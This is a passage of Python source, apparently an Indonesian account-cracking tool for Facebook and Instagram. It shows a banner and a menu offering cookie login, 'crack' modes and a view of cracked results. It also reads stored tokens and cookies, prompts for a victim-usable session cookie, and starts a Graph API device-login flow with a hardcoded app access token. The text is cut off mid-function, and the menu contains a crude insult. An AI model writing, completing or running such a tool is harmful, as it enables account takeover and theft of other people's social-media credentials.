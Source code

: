          os.system('clear') 
 #------------------[ LOGO-LAKNAT ]-----------------# 
 def banner(): 
         cetak(panel(f"""[bold green]                ___  ____ ____ _   _ ____ _  _ _  _ _  _  
 [bold green]                |__] |__/ |__|  \_/  |___ |\ | |\ | |\ |  
 [bold green]                |__] |  \ |  |   |   |___ | \| | \| | \|                                                                                                         
              """,width=90,padding=(0,8),title=f"Banner",style=f"bold white")) 
 #--------------------[ BAGIAN-MASUK ]--------------# 
 def login123(): 
         os.system('clear') 
         banner() 
         cetak(panel(f"[[bold cyan]01[bold white]] Login Menggunakan Cookie              [[bold cyan]03[bold white]] Crack Instagram \n[[bold cyan]02[bold white]] Menu Crack Tanpa Login                [[bold cyan]04[bold white]] Cek Hasil Crack ",width=90,title=f"[bold green]Menu Bot",padding=(0,2),style=f"bold white")) 
         bryn = input(f' [+] Pilih Menu : ') 
         if bryn in ['1','01']: 
                 login_lagi334() 
         elif bryn in ['2','02']: 
                 crack_email() 
         elif bryn in ['3','03']: 
                 error() 
         elif bryn in ['4','04']: 
                 result() 
         else: 
                 print(' [+] Pilih Yang Bener Asu ') 
                 time.sleep(5) 
                 exit() 
  
 def login(): 
         try: 
                 token = open('.token.txt','r').read() 
                 cok = open('.cok.txt','r').read() 
                 tokenku.append(token) 
                 try: 
                         sy = requests.get('https://graph.facebook.com/me?fields=id,name&access_token='+tokenku[0], cookies={'cookie':cok}) 
                         sy2 = json.loads(sy.text)['name'] 
                         sy3 = json.loads(sy.text)['id'] 
                         menu(sy2,sy3) 
                 except KeyError: 
                         login123() 
                 except requests.exceptions.ConnectionError: 
                         li = ' [+] Problem Internet Connection, Check And Try Again' 
                         lo = mark(li, style='red') 
                         sol().print(lo, style='cyan') 
                         exit() 
         except IOError: 
                 login123() 
  
 def login_lagi334(): 
         try: 
                 cetak(nel('Disarankan Untuk Menggunakan Cookie Yang Masih Fresh Untuk Melakukan Crack Account',width=90,style=f"bold white")) 
                 your_cookies = input(' [+] Masukan Cookie : ') 
                 with requests.Session() as r: 
                         try: 
                                 r.headers.update({'content-type': 'application/x-www-form-urlencoded',}) 
                                 data = {'access_token': '867777633323150|446fdcd4a3704f64e5f6e5fd12d35d01','scope': ''} 
                                 response = json.loads(r.post('https://graph.facebook.com/v2.6/device/login/', data = data).text) 
                                 code, user_code = response['code'], response['user_code'] 
                                 verification_url, status_url = ('https://m.facebook.com/device?user_code={}'.format(user_code)), ('https://graph.facebook.com/v2.6/device/login_status?method=post&code={}&access_token=867777633323150|446fdcd4a3704f64e5f6e5fd12d35d01&callback=LeetsharesCallback'.format(code)) 